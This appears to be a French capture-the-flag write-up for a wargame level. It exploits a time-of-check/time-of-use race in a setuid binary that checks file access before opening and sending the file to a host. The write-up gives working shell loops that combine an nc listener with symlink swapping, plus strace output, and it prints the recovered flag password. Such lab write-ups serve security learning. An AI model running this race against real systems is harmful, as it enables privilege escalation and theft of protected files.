# Level 10

Home structure
```
$ ls -la
total 36
drwxrwx---+ 1 level10 level10   260 Jun 28 15:36 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
$./level10 file host
	sends file to host if you have access to it
```
L'exécutable nous demandes un fichier avec des accès dessus et une ip ?
```
./level10 token 127.0.0.1
You don't have access to token
./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
On a plus d'info sur l'ip, il essaye de se connecter à l'ip via le port 6969. On va donc setup un petit serveur
```
$ nc -l 6969 &
[1] 2086
$ ./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. Hello
wrote file!
```
On recoit bien le contenu du fichier `/tmp/toto` qui est: `Hello`.

```
$ strace ./level10 /tmp/toto 127.0.0.1
...
access("/tmp/toto", R_OK)               = 0
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8.*( )*.
)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/toto", O_RDONLY)             = 4
read(4, "Hello\n", 4096)                = 6
write(3, "Hello\n", 6Hello
)                  = 6
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
Lors du strace de l'exécutable, on voit qu'il essaye d'`access` sur le fichier avec la permission `READ` avant de l'ouvrir et de se connecter. On pourrait peut être faire une [Race condition](https://en.wikipedia.org/wiki/Race_condition) ?

Donc pour ce faire, il faudrait lancer le programme avec comme fichier `toto` dont on a les permissions de `read` puis sur la miliseconde plus tard après l'execution d'`access` changer le fichier `toto` par un autre fichier dont on n'a pas la permission de lire comme le `token`. On peut le faire grace au `softlink`.

Et pour avoir le plus de chance possible on va lancer le programme à l'infini.

On lance `tmux` ou tous simplement 3 instance `ssh`.
- Une qui va exécuter le programme à l'infini
- Une qui va juste listen sur le port `6969`
- Et la dernière qui va link sur un fichier puis attendre une milisecond et relink sur `token`.

```sh
# Instance 1
while true; do ./level10 tata 127.0.0.1; done

# Instance 2
nc -kl 6969

# Instance 3
ln -sf /dev/null tata; sleep 0.1; ln -sf token tata
```
Et sur l'instance 2 on recoit donc le contenu de token qui est le mot de passe de flag10. `woupa2yuojeeaaed06riuj63c`
